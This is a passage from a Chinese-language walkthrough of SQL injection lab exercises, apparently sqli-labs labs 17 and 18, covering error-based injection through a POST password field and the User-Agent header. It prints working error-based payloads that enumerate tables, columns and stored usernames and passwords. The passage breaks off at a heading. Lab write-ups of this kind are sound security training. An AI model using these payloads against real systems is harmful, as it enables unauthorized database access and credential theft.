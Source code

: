 ![image-20211207215445857](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059612.png)

### 查询数据库中的表

```
uname=admin&passwd=1' and (select 1 from (select count(*),concat((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA="security" limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) #
```

![image-20211207215555271](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059773.png)

### 查表中的字段

```
uname=admin&passwd=1' and (select 1 from (select count(*),concat((SELECT column_name FROM information_schema.columns where table_schema='security' and table_name='users' limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) #
```

![image-20211207215814025](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059488.png)

### 查数据

```
uname=admin&passwd=1' and (select 1 from (select count(*),concat((select concat_ws(id,username,password) from users limit 1,1),floor (rand(0)*2))x from information_schema.tables group by x)a) #
```

![image-20211207215902379](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100037.png)



## 实验十八	基于错误的用户代理，头部POST注入

首先输入`admin`&`admin`进行测试，发现回显user-agent：

![image-20211207220023295](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100231.png)

猜测User-Agent是注入点，尝试控制：`User-Agent: 1`

![image-20211207220926754](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100616.png)

输入：`User-Agent: 1'`，发现有报错回显，说明是用单引号闭合的。

![image-20211207221007900](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100421.png)

之后的payload可以参考实验十七，只是要放在`User-Agent=1'`后面，并且这里最后不能用`#`注释掉之后的内容（会报错），改成`or '1'='1`

### 1、手工注入

payload：

#### 查询数据库
